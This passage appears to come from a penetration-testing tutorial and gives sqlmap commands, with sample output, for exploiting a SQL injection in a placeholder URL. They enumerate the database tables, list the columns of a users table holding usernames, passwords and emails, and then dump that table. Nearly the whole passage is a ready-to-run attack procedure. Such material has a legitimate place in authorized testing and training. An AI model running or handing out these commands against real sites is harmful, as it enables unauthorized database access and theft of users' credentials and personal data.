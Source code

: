 ### 6.2: Enumerate Tables

```bash
sqlmap -u "https://target.com/product?id=1" \
  -D webapp_db \
  --tables \
  --batch
```

**Expected Output:**
```
Database: webapp_db
[5 tables]
+-------------+
| products    |
| users       |
| orders      |
| payments    |
| admin_logs  |
+-------------+
```

### 6.3: Enumerate Columns

```bash
sqlmap -u "https://target.com/product?id=1" \
  -D webapp_db \
  -T users \
  --columns \
  --batch
```

**Expected Output:**
```
Database: webapp_db
Table: users
[5 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| username | varchar(50) |
| password | varchar(255)|
| email    | varchar(100)|
| role     | varchar(20) |
+----------+-------------+
```

### 6.4: Dump Data

**Specific table:**
```bash
sqlmap -u "https://target.com/product?id=1" \
  -D webapp_db \
  -T users \
  --dump \
  --batch
```
